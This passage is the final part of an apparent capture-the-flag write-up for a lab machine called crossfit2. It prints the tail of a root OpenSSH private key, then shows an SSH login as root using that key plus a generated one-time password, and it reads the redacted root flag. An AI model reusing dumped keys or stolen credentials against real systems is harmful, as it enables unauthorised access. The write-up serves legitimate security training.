 ```bash
  qZPSDrHrnu0GtfvzysQ+I/O3gncyKQAAAAMBAAEAAAGBAJ9RvXobW2cPcZQOd4SOeIwyjW
  fFyYu2ql/KDzH81IrMaxTUrPEYGl25D5j72NkgZoLj4CSOFjOgU/BNxZ622jg1MdFPPjqV
  MSGGtcLeUeXZbELoKj0c40wwOJ1wh0BRFK9IZkZ4kOCl7o/xD67iPV0FJsf2XsDrXtHfT5
  kYpvLiTBX7Zx9okfEh7004g/DBp7KmJ0YW3cR2u77KmdTOprEwtrxJWc5ZyWfI2/rv+piV
  InfLTLV0YHv3d2oo8TjUl4kSe2FSzhzFPvNh6RVWvvtZ96lEK3OvMpiC+QKRA2azc8QMqY
  HyLF7Y65y6a9YwH+Z6GOtB+PjezsbjO/k+GbkvjClXT6FWYzIuV+DuT153D/HXxJKjxybh
  iJHdkEyyQPvNH8wEyXXSsVPl/qZ+4OJ0mrrUif81SwxiHWP0CR7YCje9CzmsHzizadhvOZ
  gtXsUUlooZSGboFRSdxElER3ztydWt2sLPDZVuFUAp6ZeMtmgo3q7HCpUsHNGtuWSO6QAA
  AMEA6INodzwbSJ+6kitWyKhOVpX8XDbTd2PQjOnq6BS/vFI+fFhAbMH/6MVZdMrB6d7cRH
  BwaBNcoH0pdem0K/Ti+f6fU5uu5OGOb+dcE2dCdJwMe5U/nt74guVOgHTGvKmVQpGhneZm
  y2ppHWty+6QimFeeSoV6y58Je31QUU1d4Y1m+Uh/Q5ERC9Zs1jsMmuqcNnva2/jJ487vhm
  chwoJ9VPaSxM5y7PJaA9NwwhML+1DwxJT799fTcfOpXYRAAKiiAAAAwQD5vSp5ztEPVvt1
  cvxqg7LX7uLOX/1NL3aGEmZGevoOp3D1ZXbMorDljV2e73UxDJbhCdv7pbYSMwcwL4Rnhp
  aTdLtEoTLMFJN/rHhyBdQ2j54uztoTVguYb1tC/uQZvptX/1DJRtqLVYe6hT6vIJuk/fi8
  tktL/yvaCuG0vLdOO52RjK5Ysqu64G2w+bXnD5t1LrWJRBK2PmJf+406c6USo4rIdrwvSW
  jYrMCCMoAzo75PnKiz5fw0ltXCGy5Y6PMAAADBAPhXwJlRY9yRLUhxg4GkVdGfEA5pDI1S
  JxxCXG8yYYAmxI9iODO2xBFR1of1BkgfhyoF6/no8zIj1UdqlM3RDjUuWJYwWvSZGXewr+
  OTehyqAgK88eFS44OHFUJBBLB33Q71hhvf8CjTMHN3T+x1jEzMvEtw8s0bCXRSj378fxhq
  /K8k9yVXUuG8ivLI3ZTDD46thrjxnn9D47DqDLXxCR837fsifgjv5kQTGaHl0+MRa5GlRK
  fg/OEuYUYu9LJ/cwAAABJyb290QGNyb3NzZml0Mi5odGIBAgMEBQYH
  -----END OPENSSH PRIVATE KEY-----

```

## Rooted

So, now we basically have everything we need, the OTP password and the private key.

When prompted for the password we generate a new OTP and we are in.

```bash
❯ ssh -i id_rsa root@$target              
root@10.10.10.232's password: 
Last login: Fri Dec 22 11:46:52 2023
OpenBSD 7.4 (GENERIC.MP) #2: Fri Dec  8 15:39:04 MST 2023

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

tset: unknown terminal type xterm-kitty
Terminal type? xtemr
tset: unknown terminal type xtemr
Terminal type? xterm
crossfit2# id                                                                                                                                                                                                                   
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
crossfit2# cat /root/root.txt
<REDACTED>
crossfit2# 
```

Pwned!!

---

---

---
